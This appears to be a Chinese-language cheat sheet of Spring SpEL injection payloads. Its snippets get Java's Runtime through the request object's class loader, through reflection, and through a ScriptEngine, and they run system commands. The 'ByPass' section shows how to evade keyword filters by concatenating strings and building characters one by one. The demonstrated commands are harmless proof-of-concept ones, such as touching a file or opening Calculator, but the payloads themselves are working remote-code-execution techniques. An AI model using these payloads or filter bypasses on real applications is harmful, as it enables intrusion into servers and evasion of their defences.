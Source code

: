 ### 通过内置对象加载 UrlClassLoader
参考[Spring SPEL注入漏洞利用](https://mp.weixin.qq.com/s?__biz=MzAwMzI0MTMwOQ==&idx=1&mid=2650174018&sn=94cd324370afc2024346f7c508ff77dd). `request`、`response`对象是`web`项目的常客, 在`web`项目如果引入了`spel`的依赖, 那么这两个对象会自动被注册进去.

```java
{request.getClass().getClassLoader().loadClass(\"java.lang.Runtime\").getMethod(\"getRuntime\").invoke(null).exec(\"touch/tmp/foobar\")}
```

```java
username[#this.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec('open -a Calculator')")]=asdf
```

## ByPass
### 反射调用

```java
T(String).getClass().forName("java.lang.Runtime").getRuntime().exec("open -a Calculator")
```

```java
#this.getClass().forName("java.lang.Runtime").getRuntime().exec("open -a Calculator")
```

### 反射调用 && 字符串拼接

```java
T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"open","-a","Calculator"})
```

```java
#this.getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"open","-a","Calculator"})
```

### 动态生成字符
当执行的系统命令被过滤或者被`URL`编码掉时, 可以通过`String`类动态生成字符.

 - Part1
```java
T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(111).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(114)))
```
